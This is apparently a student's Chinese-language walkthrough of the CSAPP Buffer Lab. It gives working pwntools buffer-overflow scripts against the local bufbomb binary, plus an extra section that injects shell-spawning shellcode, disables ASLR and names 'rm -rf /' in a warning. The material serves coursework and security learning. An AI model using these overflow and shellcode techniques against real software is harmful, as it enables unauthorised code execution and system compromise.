

Buffer Lab
更新：鉴于大家只是听了一点课，对于PWN之类的一般可能一点概念都没有，并且之前一版的文章同学们表示一些名词太多。对此，我决定还是多润色一下这篇文章，然后，还请各位先看一下这些文章预习一下，就能更好地做实验了：
如果你连这些都不知道的话，可能也就不知道我在下面讲什么了...
开头惯例先膜一下大佬们：@obliviate @Apeng
题目存档：buflab-handout.tar
实验要求
容我抄一下实验的PPT：
目标
实验攻击目标的程序为bufbomb。该程序中含有一个带有漏洞的getbuf()函数，它所调用的系统函数gets()未进行缓冲区溢出保护。其代码如下：
1 2 3 4 5 | int getbuf() { char buf[12]; Gets(buf); return 1; } |
系统函数gets()从标准输入设备读字符串函数。以回车结束读取，不会判断上限，所以程序员应该确保buffer的空间足够大，以便在执行读操作时不发生溢出。
要求
目标程序bufbomb将执行test()，进而执行getbuf()，最终执行gets()。其中gets()会从标准输入设备读入数据。要求黑客同学利用所学知识，构造适当的输入数据，通过标准输入传递到目标程序，实现以下目的：
-
getbuf()返回时，不返回到test()，而是直接返回到指定的smoke()函数（该函数已经存在于bufbomb可执行文件中）。
-
getbuf()返回时，不返回到test()，而是直接返回到指定的fizz()函数（该函数已经存在于bufbomb可执行文件中），而且要求给fizz()函数传入一个黑客cookie值作为参数。其中cookie可以通过makecookie工具根据黑客姓名产生——“makecookie neo”(neo请替换成你的名字)。
-
getbuf()返回时，不返回到test()，而是直接返回到指定的band()函数（该函数已经存在于bufbomb可执行文件中），并且在返回到band()之前，先修改全局变量global_value为你的黑客cookie值（cookie值生成方法与上一要求相同）
操作
已知bufbomb中有test()函数将会调用getbuf()函数，并调用gets()从标准输入设备读入字符串。因此可以通过大于getbuf()中给出的数据缓冲区的字符串而破坏getbuf()栈帧，改变其返回地址——指向我们提供的攻击函数。
具体操作
这个爱看不看，我下面写。
使用gdb和objdump分析其栈帧结构，确定test()调用getbuf()后返回地址与buf缓冲区相对位置关系；
根据目标攻击函数地址，构造出传给gets()的数据（用于填充缓冲区并破坏栈帧结构）。将所构造的数据每字节用16进制数字表示（文本字符串，例如0x3用两个字符表示为“03”），并保存在exploit.txt文件中。
将exploit.txt文本文件中的数据通过sendstring工具转换成char类型的数据——保存在exploitraw.txt中。比如利用管道“cat exploit.txt | ./sendstring | ./exploitraw.txt”或通过重定向“./sendstring < exploit.txt > exploit_raw.txt”
执行bufbomb，并将转换后的数据作为标准输入数据传入bufbomb。具体方法有多种，例如“cat exploitraw.txt | bufbomb –t neo”、“bufbomb -t neo< exploitraw.txt”。其中neo请替换成同学自己的名字。
将参数传入bufbomb时，也可指直接从exploit.txt文件开始，执行“$ cat exploit.txt | ./sendstring | ./bufbomb -t neo”。无需exploit_raw.txt的中转，直接由sendstring通过管道输入到bufbomb的标准输入设备中。
开始折腾
这个真的...很难讲清楚是怎么回事，我觉得主要还是自己调几次就会很直观了。
更新：你可以用很多种方式来做这个实验。我再废话几句好了。
现在实验是给出了一个二进制文件，它的函数调用存在漏洞，你可以利用这个漏洞破坏栈上的数据来，例如使函数返回到你所指定的函数上，甚至是获得目标主机的访问或是控制权（getshell）。有关详细信息，我还是建议查看这里。
smoke()
不管上面怎么说，反正我只记住了要求。先run一下看看：

要求必须指定一个队伍名称。指定一个试试，然后随意输了一个字符串：

大概了解了。把bufbomb拖到IDA里，开始调试。
跟随程序流程，进入launch()：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 | int __usercall launch@<eax>(int a1@<eax>, int a2@<edx>) { int v2; // ebx void *v3; // esp int result; // eax char v5; // [esp+1Bh] [ebp-3Dh] int savedregs; // [esp+58h] [ebp+0h] v2 = a1; v3 = alloca(a2 + (((unsigned __int16)&savedregs - 72) & 0x3FF8) + 15); memset((void *)((unsigned int)&v5 & 0xFFFFFFF0), 244, a2 + (((unsigned __int16)&savedregs - 72) & 0x3FF8)); if ( !quiet ) { if ( hexformat ) printf("Type Hex string:"); else printf("Type string:"); } if ( v2 ) { testn(); result = success; if ( success ) return result; LABEL_8: result = puts("Better luck next time"); success = 0; return result; } test(); result = success; if ( !success ) goto LABEL_8; return result; } |
随后跳进了test()：
1 2 3 4 5 6 7 8 9 10 | int test() { signed int v0; // edx v0 = getbuf(); if ( v0 != cookie ) return printf("Dud: getbuf returned 0x%x\n", v0); printf("Boom!: getbuf returned 0x%x\n", v0); return validate(3); } |
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 | .text:08048DA0 ; =============== S U B R O U T I N E ======================================= .text:08048DA0 .text:08048DA0 ; Attributes: bp-based frame .text:08048DA0 .text:08048DA0 public test .text:08048DA0 test proc near ; CODE XREF: launch:loc_8049080↓p .text:08048DA0 .text:08048DA0 var_4 = dword ptr -4 .text:08048DA0 .text:08048DA0 push ebp .text:08048DA1 mov ebp, esp .text:08048DA3 sub esp, 18h .text:08048DA6 mov [ebp+var_4], 0DEADBEEFh .text:08048DAD call getbuf .text:08048DB2 mov edx, eax .text:08048DB4 mov eax, [ebp+var_4] .text:08048DB7 cmp eax, 0DEADBEEFh .text:08048DBC jz short loc_8048DD0 .text:08048DBE mov dword ptr [esp], offset aSabotagedTheSt ; "Sabotaged!: the stack has been corrupte"... .text:08048DC5 call _puts .text:08048DCA leave .text:08048DCB retn .text:08048DCB ; --------------------------------------------------------------------------- .text:08048DCC align 10h .text:08048DD0 .text:08048DD0 loc_8048DD0: ; CODE XREF: test+1C↑j .text:08048DD0 cmp edx, ds:cookie .text:08048DD6 jz short loc_8048DF0 .text:08048DD8 mov [esp+4], edx .text:08048DDC mov dword ptr [esp], offset aDudGetbufRetur ; "Dud: getbuf returned 0x%x\n" .text:08048DE3 call _printf .text:08048DE8 leave .text:08048DE9 retn .text:08048DE9 ; --------------------------------------------------------------------------- .text:08048DEA align 10h .text:08048DF0 .text:08048DF0 loc_8048DF0: ; CODE XREF: test+36↑j .text:08048DF0 mov [esp+4], edx .text:08048DF4 mov dword ptr [esp], offset aBoomGetbufRetu ; "Boom!: getbuf returned 0x%x\n" .text:08048DFB call _printf .text:08048E00 mov dword ptr [esp], 3 .text:08048E07 call validate .text:08048E0C leave .text:08048E0D retn .text:08048E0D test endp .text:08048E0D .text:08048E0D ; --------------------------------------------------------------------------- .text:08048E0E align 10h |
再进入getbuf()：
1 2 3 4 5 6 7 | signed int getbuf() { char v1; // [esp+10h] [ebp-18h] Gets(&v1); return 1; } |
好了，重点来了。先来看看栈：
1 2 3 4 5 6 7 8 9 10 11 12 | FFFAF240 F7FB9FC0 ld_2.29.so:__libc_enable_secure+CC FFFAF244 08048448 LOAD:byte_8048448 FFFAF248 00000000 FFFAF24C 9C117200 FFFAF250 00000000 FFFAF254 F7D8C430 libc_2.29.so:__evoke_link_warning_getwd+B3F0 FFFAF258 00000000 FFFAF25C 00000000 FFFAF260 08BBD580 [heap]:08BBD580 FFFAF264 FFFFFFFF FFFAF268 FFFAF288 [stack]:FFFAF288 FFFAF26C 08048DB2 test+12 |
当前v1的地址是0xFFFAF250，所以需要一路覆盖到0xFFFAF268，一共4×7=28个char，然后将smoke()的地址0x08048EB0给到返回地址0xFFFAF26C上就可以了。于是有exp.py：
Tip
注意，这里使用的工具是pwntools，这可以大幅提高你的效率。有关详细信息，你可以查看文档。在Linux系统上进行安装是比较简单的，只需要参考文档中的几句命令即可。另外，对于Windows系统，你可以利用WSL来使用它。你可以参考我过往的文章来进行安装，可以在左侧栏或是上方搜索框中找到。
1 2 3 4 5 6 7 8 | from pwn import * p = process(argv=['/home/domain/Documents/SZU/CSAPP/4/bufbomb', '-t', 'domain']) print(p.recv()) address = 0x08048EB0 payload = 'a' * 28 + p32(address) p.sendline(payload) print(p.recv()) |
可以得到结果：
1 2 3 4 5 6 7 8 9 10 11 | /home/domain/IdeaProjects/pwntools/venv/bin/python /home/domain/IdeaProjects/pwntools/main.py [x] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb' [+] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb': pid 21751 Team: domain Cookie: 0x6dfd74c3 Type string:Smoke!: You called smoke() [*] Stopped process '/home/domain/Documents/SZU/CSAPP/4/bufbomb' (pid 21751) Process finished with exit code 0 |
可以看到已经输出了调用了smoke()的信息，再看看smoke()函数：
1 2 3 4 5 6 | void __noreturn smoke() { puts("Smoke!: You called smoke()"); validate(0); exit(0); } |
应该已经成功。
Tip
我知道总是会有人问我不想用pwntools怎么办。对于这一题来说，你可以准备好payload，就像这样：

然后，这样子：
1 | cat ./payload | ./sendstring | ./bufbomb -t domain |
就可以得到：

可以看到，成功地调用了smoke()。
另外，接下来我是不会继续讲不用pwntools怎么办的。
fizz()
这回需要调用一个函数并且传入参数。根据要求我们先来makecookie：

好，先留下domain的Cookie：
1 | 0x6dfd74c3 |
备用。来看看fizz()：
1 2 3 4 5 6 7 8 9 10 11 12 13 | void __cdecl __noreturn fizz(int a1) { if ( a1 == cookie ) { printf("Fizz!: You called fizz(0x%x)\n", a1); validate(1); } else { printf("Misfire: You called fizz(0x%x)\n", a1); } exit(0); } |
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 | .text:08048E60 ; =============== S U B R O U T I N E ======================================= .text:08048E60 .text:08048E60 ; Attributes: noreturn bp-based frame .text:08048E60 .text:08048E60 public fizz .text:08048E60 fizz proc near .text:08048E60 .text:08048E60 arg_0= dword ptr 8 .text:08048E60 .text:08048E60 push ebp .text:08048E61 mov ebp, esp .text:08048E63 sub esp, 8 .text:08048E66 mov eax, [ebp+8] .text:08048E69 cmp eax, ds:cookie .text:08048E6F jz short loc_8048E90 .text:08048E71 mov [esp+4], eax .text:08048E75 mov dword ptr [esp], offset aMisfireYouCall ; "Misfire: You called fizz(0x%x)\n" .text:08048E7C call _printf .text:08048E81 .text:08048E81 loc_8048E81: ; CODE XREF: fizz+4C↓j .text:08048E81 mov dword ptr [esp], 0 ; status .text:08048E88 call _exit .text:08048E88 ; --------------------------------------------------------------------------- .text:08048E8D align 10h .text:08048E90 .text:08048E90 loc_8048E90: ; CODE XREF: fizz+F↑j .text:08048E90 mov [esp+4], eax .text:08048E94 mov dword ptr [esp], offset aFizzYouCalledF ; "Fizz!: You called fizz(0x%x)\n" .text:08048E9B call _printf .text:08048EA0 mov dword ptr [esp], 1 .text:08048EA7 call validate .text:08048EAC jmp short loc_8048E81 .text:08048EAC fizz endp .text:08048EAC .text:08048EAC ; --------------------------------------------------------------------------- .text:08048EAE align 10h |
需要一个参数，所以可以有exp.py：
1 2 3 4 5 6 7 8 | from pwn import * p = process(argv=['/home/domain/Documents/SZU/CSAPP/4/bufbomb', '-t', 'domain']) print(p.recv()) address = 0x08048E60 payload = 'a' * 28 + p32(address) + p32(0x00000000) + p32(0x6dfd74c3) p.sendline(payload) print(p.recv()) |
可以当作就是在上次的基础上改了个函数地址fizz（0x08048E60），外加把参数放上去。你可能想知道为什么是这样，也可能想知道那个奇怪的0填充是什么，这个时候我们可以适当地在上面的脚本加pause()，然后用IDAAttach to process...，选中bufbomb就可以开始调试这个进程了。
Warning
调试是很重要的。要是让我只看代码不调试，我可能几乎写不出payload。而且，当你的输入并没有得到预期的结果时，如果你不进行调试是很难发现问题所在的。关于如何进行调试，你很快就会在左侧栏或是上方搜索框中找到相关文章（或许吧）。
看看这次的栈：
1 2 3 4 5 6 7 8 9 10 11 | FFEC7250 61616161 FFEC7254 61616161 FFEC7258 61616161 FFEC725C 61616161 FFEC7260 61616161 FFEC7264 61616161 FFEC7268 61616161 FFEC726C 61616161 FFEC7270 00000000 FFEC7274 6DFD74C3 FFEC7278 FFEC7200 [stack]:FFEC7200 |
此时执行到0x08048E66：
1 2 3 4 5 6 | .text:08048E60 push ebp .text:08048E61 mov ebp, esp .text:08048E63 sub esp, 8 .text:08048E66 mov eax, [ebp+8] .text:08048E69 cmp eax, ds:cookie .text:08048E6F jz short loc_8048E90 |
这个时候EBP是0xFFEC726C，函数fizz()参数将从0xFFEC7274上取值，我们已经将Cookie覆盖上去了，所以没有问题：
1 2 3 4 5 6 7 8 9 10 11 | /home/domain/IdeaProjects/pwntools/venv/bin/python /home/domain/IdeaProjects/pwntools/main.py [x] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb' [+] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb': pid 16217 Team: domain Cookie: 0x6dfd74c3 Type string:Fizz!: You called fizz(0x6dfd74c3) [*] Stopped process '/home/domain/Documents/SZU/CSAPP/4/bufbomb' (pid 16217) Process finished with exit code 0 |
你要是还在纠结那个32位的0填充是啥可以找个正常的函数边调边看看栈就知道啦，这和函数调用约定相关。另外，看了下面这关或许你也就知道了。
bang()
这回是要先改变一个全局变量global_value的值，然后再跳转到bang()函数。为了改变全局变量，我们可以通过调用Gets()并将该全局变量地址传入，来对其进行修改，然后再跳转到bang()上就完成了。
另外，由于这个程序并没有禁止栈上执行，所以你想往缓冲区里写点汇编好像也没问题。但是，我是不会这样干的。
随着 NX 保护的开启，以往直接向栈或者堆上直接注入代码的方式难以继续发挥效果。攻击者们也提出来相应的方法来绕过保护，目前主要的是 ROP(Return Oriented Programming)，其主要思想是在栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。所谓 gadgets 就是以 ret 结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程。
首先找一下global_value的地址：
1 2 | .bss:0804A1C4 public global_value .bss:0804A1C4 global_value dd ? ; DATA XREF: bang+6↑r |
记下地址：
1 | 0x0804A1C4 |
第一步跳转到Gets()（0x080489C0）需要给这个参数。看起来和第二关很像，是不是？随后就需要输入值到global_value中了：
1 2 | cookie = 0x6dfd74c3 p.sendline(p32(cookie)) |
别忘了最后还要跳转到bang()（0x08048E10）当中，所以就有exp.py：
1 2 3 4 5 6 7 8 9 10 | from pwn import * p = process(argv=['/home/domain/Documents/SZU/CSAPP/4/bufbomb', '-t', 'domain']) print(p.recv()) address = 0x080489C0 payload = 'a' * 28 + p32(address) + p32(0x08048E10) + p32(0x0804A1C4) p.sendline(payload) cookie = 0x6dfd74c3 p.sendline(p32(cookie)) print(p.recv()) |
可以得到：
1 2 3 4 5 6 7 8 9 10 11 | /home/domain/IdeaProjects/pwntools/venv/bin/python /home/domain/IdeaProjects/pwntools/main.py [x] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb' [+] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb': pid 11026 Team: domain Cookie: 0x6dfd74c3 Type string:Bang!: You set global_value to 0x6dfd74c3 [*] Stopped process '/home/domain/Documents/SZU/CSAPP/4/bufbomb' (pid 11026) Process finished with exit code 0 |
看来没有问题，我们来attach上去跟着看看运行得怎么样：
1 2 3 | FF8DF26C 080489C0 Gets FF8DF270 08048E10 bang FF8DF274 0804A1C4 .bss:global_value |
这是程序首次调用Gets()后的栈，它即将从getbuf()中返回到Gets()上，并以global_value的地址为参数。随后，第二次Gets()执行后，它将返回到0x08048E10上，即bang()。这个时候的栈是这样的：
1 2 3 | FF8DF26C 61616161 FF8DF270 08048E10 bang FF8DF274 0804A1C4 .bss:global_value |
它即将返回到bang()函数上。并且此时也可以看到global_value已经被改变：
1 | 0804A1C0 04 00 00 00 C3 74 FD 6D 00 00 00 00 00 00 00 00 .......m........ |
继续跟到bang()函数里：
1 2 3 4 5 6 7 8 9 10 11 12 13 | void __noreturn bang() { if ( global_value == cookie ) { printf("Bang!: You set global_value to 0x%x\n", global_value); validate(2); } else { printf("Misfire: global_value = 0x%x\n", global_value); } exit(0); } |
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 | .text:08048E10 ; =============== S U B R O U T I N E ======================================= .text:08048E10 .text:08048E10 ; Attributes: noreturn bp-based frame .text:08048E10 .text:08048E10 public bang .text:08048E10 bang proc near .text:08048E10 push ebp .text:08048E11 mov ebp, esp .text:08048E13 sub esp, 8 .text:08048E16 mov eax, ds:global_value .text:08048E1B cmp eax, ds:cookie .text:08048E21 jz short loc_8048E40 .text:08048E23 mov [esp+4], eax .text:08048E27 mov dword ptr [esp], offset aMisfireGlobalV ; "Misfire: global_value = 0x%x\n" .text:08048E2E call _printf .text:08048E33 .text:08048E33 loc_8048E33: ; CODE XREF: bang+4C↓j .text:08048E33 mov dword ptr [esp], 0 ; status .text:08048E3A call _exit .text:08048E3A ; --------------------------------------------------------------------------- .text:08048E3F align 10h .text:08048E40 .text:08048E40 loc_8048E40: ; CODE XREF: bang+11↑j .text:08048E40 mov [esp+4], eax .text:08048E44 mov dword ptr [esp], offset aBangYouSetGlob ; "Bang!: You set global_value to 0x%x\n" .text:08048E4B call _printf .text:08048E50 mov dword ptr [esp], 2 .text:08048E57 call validate .text:08048E5C jmp short loc_8048E33 .text:08048E5C bang endp |
没有问题。完结撒花。
Tip
好吧我还是，再说几句关于不用pwntools的情况。由于有两次输入，似乎只调用一次sendstring没法搞定payload。于是就不得不这样：
1 2 3 | ./sendstring < ./payload > ./converted echo "c374fd6d" | ./sendstring >> ./converted ./bufbomb -t domain < ./converted |
第二行就是把第二次要输入给全局变量的Cookie塞到转换后的payload文件里。
或许你有更好的办法，总之能搞定就行。不过我还是推荐用pwntools。
Nitro mode
其实我们的实验没要求这个，我还没空去看这是干嘛的，昨晚在大佬的指导下搞了这个getshell：
1 2 3 4 5 6 7 8 | from pwn import * p = process(argv=['/home/domain/Documents/SZU/CSAPP/4/bufbomb', '-n', '-t', 'domain']) print(p.recv()) payload = asm(shellcraft.sh()) + 'a' * (0x20c - 44) + p32(0xFFFFB060) p.sendline(payload) p.interactive() print(p.recv()) |
这个...由于没有关栈上执行，所以如果关闭了地址随机：
1 | echo 0 > /proc/sys/kernel/randomize_va_space |
就可以：
1 2 3 4 5 6 7 8 9 | /home/domain/IdeaProjects/pwntools/venv/bin/python /home/domain/IdeaProjects/pwntools/main.py [x] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb' [+] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb': pid 14786 Team: domain [*] Switching to interactive mode Cookie: 0x6dfd74c3 ls main.py pwntools.iml venv |
成功得到主机的shell。啥？你说不知道我在干嘛？还不知道这能干嘛？你可以敲一条你知道的Linux命令试试。
Danger
你已经得到了目标主机的shell，请不要在真机上或是没有打快照的虚拟机上运行类似rm -rf /的命令！这在没有--no-preserve-root参数之类的系统上将造成严重问题。
有关详细信息，请参考：基本 ROP - ret2shellcode
本菜鸡就不在这边现学现卖了...
更新
大佬：
甚至不用关aslr就可以得到一个shell，有空再整
好，膜。（两分钟后）大佬：
突然想起来它
bss应该也是可执行的，只要把shellcode写到bss就行了，不用那么麻烦
有道理。搞起：
1 2 3 4 5 6 7 8 | from pwn import * p = process(argv=['/home/domain/Documents/SZU/CSAPP/4/bufbomb', '-n', '-t', 'domain']) print(p.recv()) address = 0x080489C0 payload = 'a' * 0x20c + p32(address) + p32(0x0804A200 + 0x160) + p32(0x0804A200 + 0x160) p.sendline(payload) p.sendline(asm(shellcraft.sh())) |
确实不需要关闭地址随机化也成功了：
1 2 3 4 5 6 7 8 9 | /home/domain/IdeaProjects/pwntools/venv/bin/python /home/domain/IdeaProjects/pwntools/main.py [x] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb' [+] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb': pid 5702 Team: domain Cookie: 0x6dfd74c3 [*] Switching to interactive mode ls main.py pwntools.iml venv |
环境说明
- 不用说，肯定有IDA。
- pwntools，在Linux下很方便，我在IntelliJ IDEA（或者PyCharm）里写也很舒服。对于Windows，别忘了有WSL，你可以参考我的过往的文章来部署pwntools。
另外：
1 2 3 4 5 6 7 8 | domain@linux-521z:~/IdeaProjects/pwntools> ./venv/bin/checksec ~/Documents/SZU/CSAPP/4/bufbomb [*] '/home/domain/Documents/SZU/CSAPP/4/bufbomb' Arch: i386-32-little RELRO: No RELRO Stack: No canary found NX: NX disabled PIE: No PIE (0x8048000) RWX: Has RWX segments |